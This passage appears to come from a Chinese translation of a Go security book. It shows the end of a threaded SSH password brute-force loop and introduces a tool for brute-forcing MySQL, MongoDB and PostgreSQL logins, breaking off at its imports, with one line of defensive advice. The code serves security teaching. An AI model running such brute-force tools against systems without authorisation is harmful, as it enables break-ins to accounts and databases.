 ```
   numThreads := 0 
   maxThreads := 2 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testSSHAuth(url, username, password, doneChannel) 

      // If max threads reached, wait for one to finish before continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
   for numThreads > 0 { 
      <-doneChannel 
      numThreads -= 1 
   } 
} 
```

# 数据库登录的暴力破解

数据库登录可以像其他方法一样自动化和暴力破解。在前面的暴力破解示例中，大部分代码都是相同的。这些应用程序之间的主要区别在于实际测试认证的功能。而不是再次重复所有代码，这些片段将简单地演示如何登录到各种数据库。修改前面的暴力破解脚本，以测试这些数据库之一，而不是 SSH 或 HTTP 方法。

要防止这种情况发生，请限制数据库访问仅限于需要的机器，并禁用 root 远程登录。

Go 语言的标准库并未提供任何数据库驱动，只提供了接口。因此，所有这些数据库示例都需要一个来自 GitHub 的第三方包，以及一个正在运行的数据库实例来进行连接。本书不涉及如何安装和配置这些数据库服务。每个包可以通过`go get`命令进行安装：

+   MySQL: [`github.com/go-sql-driver/mysql`](https://github.com/go-sql-driver/mysql)

+   MongoDB: [`github.com/go-mgo/mgo`](https://github.com/go-mgo/mgo)

+   PostgreSQL: [`github.com/lib/pq`](https://github.com/lib/pq)

这个示例结合了三种数据库库，并提供了一个工具，可以对 MySQL、MongoDB 或 PostgreSQL 进行暴力破解。数据库类型通过命令行参数指定，并且包括用户名、主机、密码文件和数据库名称。MongoDB 和 MySQL 不需要像 PostgreSQL 那样指定数据库名称，因此在不使用`postgres`选项时，数据库名称是可选的。一个名为`loginFunc`的特殊变量被创建来存储与指定数据库类型相关的登录函数。这是我们第一次使用变量来保存函数。然后，登录函数被用来执行暴力破解攻击：

```
package main 

import ( 
   "database/sql" 
   "log" 
   "time" 

   // Underscore means only import for 
   // the initialization effects. 
   // Without it, Go will throw an 
   // unused import error since the mysql+postgres 
   // import only registers a database driver 
   // and we use the generic sql.Open() 
   "bufio" 
   "fmt" 
   _ "github.com/go-sql-driver/mysql" 
   _ "github.com/lib/pq" 
   "gopkg.in/mgo.v2" 
   "os" 
) 
```